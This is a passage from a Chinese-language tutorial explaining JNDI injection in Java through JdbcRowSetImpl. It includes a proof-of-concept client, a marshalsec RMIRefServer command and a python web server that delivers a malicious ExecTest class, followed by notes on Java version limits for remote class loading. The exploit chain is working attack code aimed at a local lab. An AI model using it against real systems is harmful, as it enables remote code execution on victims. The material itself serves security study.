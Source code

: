 最后需要**this.getDataSourceName()**的赋值处：  
`JdbcRowSetImpl.java`

	public void setDataSourceName(String var1) throws SQLException {//var1可控
	    if (this.getDataSourceName() != null) {
		if (!this.getDataSourceName().equals(var1)) {
		    String var2 = this.getDataSourceName();
		    super.setDataSourceName(var1);
		    this.conn = null;
		    this.ps = null;
		    this.rs = null;
		    this.propertyChangeSupport.firePropertyChange("dataSourceName", var2, var1);
		}
	    } else {
		super.setDataSourceName(var1);//赋值setDataSourceName
		this.propertyChangeSupport.firePropertyChange("dataSourceName", (Object)null, var1);
	    }

所以客户端的POC如下（即受害者执行以下代码就可以触发漏洞）

	package jndi;

	import com.sun.rowset.JdbcRowSetImpl;

	public class CLIENT {

	    public static void main(String[] args) throws Exception {
		JdbcRowSetImpl JdbcRowSetImpl_inc = new JdbcRowSetImpl();//只是为了方便调用
		JdbcRowSetImpl_inc.setDataSourceName("rmi://127.0.0.1:1099/aa");
		JdbcRowSetImpl_inc.setAutoCommit(true);
	    }
	}

用工具来起rmi服务端

`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://127.0.0.1:8090/#ExecTest`

然后用python起ExecTest.class的web（此处用的是上文的第二种payload）

`py -3 -m http.server 8090`

[![](http://ww1.sinaimg.cn/large/006iKNp3ly1g897bvch2cj326b185e0e.jpg)](http://ww1.sinaimg.cn/large/006iKNp3ly1g897bvch2cj326b185e0e.jpg)

至于该如何让JdbcRowSetImpl_inc执行在受害者机器上，那就是反序列化利用链一样地衍生了，这边只是衍生出第一步说明，JNDI注入并不是一定要存在一个web服务对外，一定要有一个`ctx.lookup(uri)`的url参数可控，才能形成漏洞。

漏洞利用要考虑java环境、组件，不要跟SQL注入一样认为都是定死的。具体就结合fastjson再议了。

## RMI+LDAP注入java版本限制

我们再回到第二个版本限制问题：

JDNI注入由于其加载动态类原理是JNDI Reference远程加载Object Factory类的特性（使用的不是RMI Class Loading,而是URLClassLoader）。

所以不受RMI动态加载恶意类的 **java版本应低于7u21、6u45，或者需要设置java.rmi.server.useCodebaseOnly=false系统属性**的限制。具有更多的利用空间
